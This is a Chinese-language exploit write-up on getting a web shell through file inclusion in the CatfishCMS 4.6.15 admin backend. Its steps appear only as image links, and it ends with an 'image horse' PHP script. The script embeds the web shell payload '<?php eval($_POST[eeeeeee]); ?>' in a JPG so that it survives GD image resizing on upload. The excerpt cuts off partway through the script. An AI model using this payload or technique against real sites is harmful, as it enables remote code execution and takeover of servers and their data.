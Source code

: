 制作过程：

![](resource/CatfishCMS4.6.15后台文件包含getshell/media/rId31.png)

![](resource/CatfishCMS4.6.15后台文件包含getshell/media/rId32.png)

![](resource/CatfishCMS4.6.15后台文件包含getshell/media/rId33.png)

![](resource/CatfishCMS4.6.15后台文件包含getshell/media/rId34.png)

![](resource/CatfishCMS4.6.15后台文件包含getshell/media/rId35.png)

![](resource/CatfishCMS4.6.15后台文件包含getshell/media/rId36.png)

图片马制作脚本

    <?php
        /*

        The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations
        caused by PHP functions imagecopyresized() and imagecopyresampled().
        It is necessary that the size and quality of the initial image are the same as those of the processed
        image.

        1) Upload an arbitrary image via secured files upload script
        2) Save the processed image and launch:
        php jpg_payload.php <jpg_name.jpg>

        In case of successful injection you will get a specially crafted image, which should be uploaded again.

        Since the most straightforward injection method is used, the following problems can occur:
        1) After the second processing the injected data may become partially corrupted.
        2) The jpg_payload.php script outputs "Something's wrong".
        If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another 
        initial image.

        Sergey Bobrov @Black2Fan.

        See also:
        https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

        */

        $a = '$_POST[eeeeeee]';
        $miniPayload = "<?php eval($a); ?><?php echo phpinfo(); ?>";
        /*$miniPayload = "<?php echo phpinfo(); ?>";*/
        if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
            die('php-gd is not installed');
        }
        
        if(!isset($argv[1])) {
            die('php jpg_payload.php <jpg_name.jpg>');
        }
